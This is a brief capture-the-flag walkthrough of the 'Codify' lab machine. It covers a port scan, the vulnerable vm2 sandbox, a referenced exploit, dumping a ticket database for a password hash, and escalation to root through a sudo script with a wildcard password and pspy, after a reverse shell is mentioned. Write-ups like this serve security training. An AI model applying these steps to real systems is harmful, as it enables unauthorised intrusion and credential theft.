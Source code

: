 # Codify

---
## Nmap Scan

```
sudo nmap -sV -Pn -A <ip> --disable-arp-ping
```

![nmap_scan](nmap_scan.png)

Running the scan we find port 3000 running an http server 

---

## Gathering info from the site

upon first glance the website looks like a regular sandbox code editor , however if you investigate further you notice itls running the vulnerable **vm2** library

![vm2](vm2.png)

I download the exploit **51898.c** from the explot db and run it in the sandbox to validate its usefullnes

```
https://www.exploit-db.com/exploits/51898
```
i begin enumerating the machine to find a sqlite database on it i dump the the tables to find a hashed password and a username
```
use command
sqlite3 /var/www/contact/tickets.db .dump
```
---
## Cracking the hash

![hash](hash.png)

this will crack the hash giving you the password to the user previously found ssh into the machine to find the **user flag**

---

## Privilege Escalation

I run the following command to check for a misconfigured sudo privilege

![privilege](privilege.png)

upon examining the script attached we foud out that it recursively changes the permision to **774** and changes the owner to **root:sys-admin**

to exploit this we need start a reverse shell and download the binary files needed for exploitation

after starting the reverse shell

```
download necessary files

wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64s

./pspy64d -i 1

```

back on the ssh we run the script again using __*__ as our password we'd get the following 

![password](password.png)

use the found password to login again as root and you'll find the root user flag
